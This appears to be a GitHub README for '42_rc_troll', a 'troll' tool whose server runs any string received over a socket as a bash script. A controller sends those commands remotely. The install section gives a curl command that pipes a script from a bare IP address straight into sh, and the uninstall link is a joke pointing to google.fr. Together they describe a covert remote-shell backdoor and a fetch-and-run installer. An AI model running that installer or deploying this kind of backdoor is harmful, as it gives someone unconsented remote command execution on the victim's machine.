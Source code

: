 # 42\_rc\_troll
Remote control troll via sockets

# Disclaimer

I am in no way responsible for the potential uses of this project, no matter if the user is myself or a third party.

# How it works (basic)

The `troll_server` binary creates a server via Unix sockets and listen to `TROLL_PORT`. Everything read from this socket is ran as a shell script (a new bash process is born each time. Those are for now ran asynchronously).

The `troll_controller` connects to a particular server and sends strings to the server. Some builtin commands are integrated. It also listen for output by the sever.

# How to install (something you shouldn’t do)

To install the troll, run `curl http://51.255.193.81/mlforall/42/troll/pool/rc/tinstall.sh | sh`

# How to uninstall

Well, just follow this [link](https://google.fr)
